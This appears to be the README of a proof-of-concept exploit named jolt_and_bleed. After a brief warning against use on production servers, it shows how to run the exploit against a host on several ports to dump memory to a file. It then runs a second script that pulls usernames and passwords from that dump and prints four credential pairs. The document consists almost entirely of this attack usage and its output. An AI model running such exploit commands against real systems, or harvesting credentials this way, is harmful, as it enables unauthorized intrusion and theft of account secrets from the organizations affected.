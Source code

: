 # WARNING
Don't test on productuion servers.

# Usage example
```
$ python jolt_and_bleed_poc.py -s 192.168.56.101 -d out.bin -p 9034 9035 9036 9037 9038
...
...
Done

$ python extractCreds.py out.bin
RCLAYBURN:aeM9CuaXatohr1aixe9pohx4u
SADAMS:Ohl0ac4Gaasilae4Nouzoheeh
AJORDAN:peeW1bevoh7eitah1aucheegh
DMANAGER:ohquaix6aipoa6Euy7shu5moH
